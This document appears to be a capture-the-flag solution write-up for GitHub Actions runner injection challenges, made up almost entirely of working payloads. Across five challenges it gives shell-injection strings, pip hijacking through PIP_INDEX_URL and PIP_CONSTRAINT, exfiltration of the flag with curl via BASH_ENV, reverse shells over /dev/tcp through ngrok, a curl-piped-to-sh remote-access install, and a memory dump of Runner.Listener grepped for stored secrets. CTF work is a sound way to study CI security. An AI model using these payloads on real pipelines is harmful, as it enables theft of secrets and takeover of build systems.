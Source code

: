 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#chall-1">Challenge 1</a>
    </li>
    <li>
      <a href="#gchall-2">Challenge 2</a>
      <ul>
        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-3">Challenge 2</a>
      <ul>
        <li><a href="#prerequisites">Solution 1</a></li>
        <li><a href="#installation">Solution 2</a></li>
      </ul>
    </li>
  </ol>
</details>

# Chall 1
 
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```






# Chall 2
## Using PIP_INDEX_URL
> [!NOTE]
> - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
> - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
> - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)
``` bash
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
> [!TIP]
> Alternatives to cloudsmith :
> - Host your own registry (local, AWS or other...)
> - Use github pages
>
> Sometimes indentation doesn't work when commenting on an exit. It is therefore preferable to use `Github CLI` directly and push a file. `gh issue comment <id_issue> -F <file_name>`





## Using PIP_CONSTRAINT
> [!NOTE]
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Configure Beeceptor :
- Add new "Mocking Rules"
- Match value: "/<file_name>.txt"
- Response body: "pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%"

``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
```





# Chall 3
## Using BASH_ENV
> [!NOTE]
> - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
``` bash
Not a release :(
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```





## Using BASH_FUNC
``` bash
Not a release :(
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```
 




# Chall 4
## Setup (client side)
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 




# Chall 5
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's dump!
 
### Let's check those secrets
 
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

 
